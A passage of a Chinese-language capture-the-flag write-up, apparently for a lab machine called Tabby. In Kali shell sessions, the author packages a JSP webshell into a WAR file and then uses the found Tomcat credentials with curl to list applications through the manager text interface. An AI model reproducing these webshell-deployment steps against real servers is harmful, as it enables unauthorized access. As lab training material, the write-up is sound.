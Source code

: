 ```Bash
┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# mkdir webshell

┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# cp shell.jsp webshell

┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# cd webshell

┌──(root㉿yOutiao)-[/home/machines/linux/tabby/webshell]
└─# jar -cvf ../webshell.war *
added manifest
adding: shell.jsp(in = 579) (out= 351)(deflated 39%)

┌──(root㉿yOutiao)-[/home/machines/linux/tabby/webshell]
└─# cd ..

┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# ll
total 16
drwxr-xr-x 3 root root 4096 Feb 27 14:37 CVE-2020-9484
-rw-r--r-- 1 root root  579 Feb 27 15:23 shell.jsp
drwxr-xr-x 2 root root 4096 Feb 27 15:24 webshell
-rw-r--r-- 1 root root  803 Feb 27 15:24 webshell.war

```
    - 上传war包，这里在host-manager页面下用的是被动上传

    

host-manager的页面没有上传包的功能，这里只能用UNC的方式去操作，可以参考这里，在自己机器上运行smbserver，这个靶机上是用不了的

[Tomcat exploit variant : host-manager | Certilience](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)

这里用另外一个方式，有点超纲

#### Text-based manager

只能在命令行下操作

```Bash
#The tomcat user did have another permission, manager-script. This is to allow access to the text-based web service located at /manager/text. There’s a list of commands here.
┌──(root㉿yOutiao)-[/home/machines/linux/tabby]
└─# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs


```
